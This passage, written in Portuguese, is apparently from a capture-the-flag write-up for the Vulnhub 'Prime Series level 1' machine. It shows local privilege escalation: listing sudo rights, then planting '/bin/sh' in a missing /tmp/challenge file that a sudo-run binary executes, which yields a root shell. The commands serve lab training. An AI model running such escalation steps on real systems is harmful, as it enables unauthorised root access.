 
* Listamos os binarios que podem ser executados com o sudo

```bash
sudo -l
```

![](/assets/img/Vulnhub/Prime_Series_level-1/sudo-l-saket.png)




* Ao executar o binario e exibido uma mensagem de afronta e um erro de "not foud" do arquivo **/tmp/challenge**

![](/assets/img/Vulnhub/Prime_Series_level-1/challenge.png)


* Provavelmente esse arquivo que nao foi encontrado sera executado como root. Entao vamos criar esse arquivo para nos enviar um shell e consequentemente viraremos **ROOT**!

```bash
echo "/bin/sh" > /tmp/challenge
chmod +x /tmp/challenge
cat /tmp/challenge
sudo /home/victor/undefeated_victor
python -c "import pty;pty.spawn('/bin/bash')"
id
```

![](/assets/img/Vulnhub/Prime_Series_level-1/criando_challenge_virando_root.png)
